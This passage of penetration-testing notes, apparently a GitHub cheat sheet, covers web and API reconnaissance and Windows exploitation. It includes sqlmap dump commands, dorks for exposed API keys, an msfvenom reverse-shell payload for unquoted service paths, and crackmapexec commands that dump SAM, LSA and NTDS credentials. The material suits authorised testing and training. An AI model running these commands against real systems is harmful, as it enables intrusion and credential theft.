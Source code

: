 - `gobuster dir -u https://example.com -w /wordlists/test.txt -lk -o gobuster.txt` 
- `nikto -h https://example.com`
- `wpscan --url https://example.com -e -o wpscan.txt`
- `dirsearch -u http://example.com`
- `feroxbuster -u http://example.com -L 10 -t 10 -qn`
SQLMap
- `sqlmap -r form.sqlmap --batch`
- `sqlmap -r form.sqlmap --batch --dbms sqlite --tables`
- `sqlmap -r form.sqlmap --batch --dbms sqlite -t $table --dump`
#### API
Find WordPress users API
- `inurl:"/wp-json/wp/v2/users"`
Find exposed API keys
- `intitle:"index.of" intext:"api.txt"`
Find interesting API directories
- `inurl:"/api/v1" intext:"index of /"`
Sites with XenAPI SQLi vulnerabilities
- `ext:php inurl:"api.php?action="`
Finds potentially exposed API keys
- `intitle:"index of" api_key OR "api key" OR apiKey -pool`
Search GitHub issues and previous versions
- `site:github.com inurl:api`
Use Amass for api enumeration
- `amass enum -active -d target-name.com | grep api`
- `amass enum -active -brute -w /usr/share/wordlists/API_superlist -d [target domain] -dir [directory name]`
Use Kiterunner to enumerate API endpoints
- `kr scan HTTP://127.0.0.1 -w ~/api/wordlists/data/kiterunner/routes-large.kite`
#### Web-App Analysis 
- Wappalyzer - Identify technologies used. 
- Entry Points - Input, uploads, buttons, URL parameters, etc.  
- Guest Accounts - Authenticated session without credentials?
- User Enumeration - Login errors, IDOR, etc.
- `sslyze https://example.com` - Checks for SSL/TLS issues. 
#### Vulnerability Scanners
- `nuclei -l hosts.txt -o nuclei.txt`
## Exploitation
### Windows
- [ ] App Domain
#### Unquoted Service Path
Find vulnerable services using PowerShell:
`Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName`
- [ ] .lnk files
- [ ] WTFBins
- [ ] BloodHound/SharpHound
- [ ] WinPEAS
Check write permissions in directory before the space: 
`Get-Acl C:\DirectoryName\`
Generate payload:
`msfvenom -p windows/x64/shell/reverse_tcp LHOST=127.0.0.1 LPORT=9001 -f exe-service -o mal.exe`
- [ ] Petit Pottam
#### Credential Caches
Dump credential caches
- `crackmapexec smb 127.0.0.1 -u $username -p $password --lsa`
- `crackmapexec smb 127.0.0.1 -u $username -p $password --sam`
Clone domain controller
- `crackmapexec smb 127.0.0.1 -u $username -p $password --ntds --users --enabled` (Requires DA, don't use this without permission from the client)